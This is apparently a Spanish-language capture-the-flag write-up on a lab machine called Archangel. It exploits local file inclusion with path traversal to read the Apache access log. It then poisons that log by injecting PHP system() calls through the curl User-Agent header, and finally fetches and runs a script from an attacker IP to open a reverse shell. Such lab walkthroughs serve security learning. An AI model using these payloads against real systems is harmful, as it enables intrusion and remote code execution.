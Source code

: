 La máquina [[MAQUINA ARCHANGEL (Fuzzing, Local File Inclusion con wrappers, log poissoning y manipulación del PATH)]] tiene esta vulnerabilidad en esta ruta:
```python
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././../././var/log/apache2/access.log
```

![[Pasted image 20240612233112.png]]

Por tanto, una vez visto esto, podemos intentar hacer un log poisoning, de tal forma que si probamos en ejecutar una petición con curl podemos inyectar texto dentro del apartado del user agent:
```bash
curl -s -X GET 'http://mafialive.thm' -H 'User-Agent:Pruebas'
```

![[Pasted image 20240612233124.png]]

Pero ahora si dentro del user-agent inyectamos un código php malicioso para ejecutar comandos, veremos que funciona:
```bash
curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('whoami'); ?>"
```

![[Pasted image 20240612233133.png]]

Una vez hecho esto, montamos un servidor http con python y nos compartimos un fichero para enviarnos una reverse shell:
![[Pasted image 20240612233138.png]]

![[Pasted image 20240612233143.png]]
Y entonces ahora ejecutamos el comando wget para obtener este archivo y después bash pwned.sh para ejecutarlo y recibir la reverse shell:
```bash
curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('wget http://10.8.100.91/pwned.sh'); ?>"

curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('chmod 777 pwned.sh'); ?>"

curl -s -X GET 'http://mafialive.thm' -H "User-Agent: <?php system('bash pwned.sh'); ?>"
```
Una vez ejecutado lo anterior, refrescamos y habremos recibido la reverse shell:
![[Pasted image 20240612233150.png]]

Y habremos recibido la reverse shell:

![[Pasted image 20240612233153.png]]